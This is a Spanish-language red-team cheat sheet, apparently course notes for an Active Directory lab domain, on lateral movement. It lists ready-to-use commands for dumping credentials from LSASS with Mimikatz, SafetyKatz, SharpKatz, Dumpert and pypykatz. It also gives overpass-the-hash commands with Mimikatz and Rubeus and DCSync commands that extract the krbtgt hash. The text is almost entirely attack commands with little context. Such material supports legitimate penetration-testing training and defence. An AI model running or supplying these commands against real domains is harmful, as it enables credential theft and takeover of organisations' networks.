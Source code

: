 # Lateral Movement

**Lateral Movement - Mimikatz**

-Se puede usar para dumpear credenciales, tickets, y mas ataques

-Mimikatz se carga en la memoria

-Se necesita privilegios de administrador para dumpear credenciales en la maquina local

Lateral Movement - Extracting Credentials from LSASS

Dumpear credenciales en la maquina local:

`Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`

Usando SafetyKatz (Minidump de lsass y PELoader para ejecutar Mimikatz):

`SafetyKatz.exe "sekurlsa::ekeys"`

Dump creds mediante SharpKatz:

`SharpKatz.exe --Command ekeys`

Dump creds mediante Dumpert:

`rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump`

Dump creds mediante pypykatz:

`pypykatz.exe live lsa`

Desde una maquina linux usando: `Impacket` o `Physmem2profit`

**Lateral Movement - OverPass-The-Hash**

OPTH genera tokens de hashes o keys. 

Con permisos de Administrador: 

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator/domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'`

`SafetyKatz.exe "sekurlsa::pth /user:administrator/domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"`

Los comandos anteriores inician una sesión de PowerShell con un tipo de inicio de sesión 9 (mismo as runas /netonly)

Sin permisos:

`Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt`

`Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`

**Lateral Movement - DCSync**

Para extraer credenciales del controlador de dominio sin ejecución de código en él, podemos usar DCSync: Por defecto hacen falta privilegios de administrador del dominio

Para usar la característica DCSync para obtener krbtgt hash, ejecute lo siguiente comando con privilegios de DA para el dominio us:

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`

`SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"`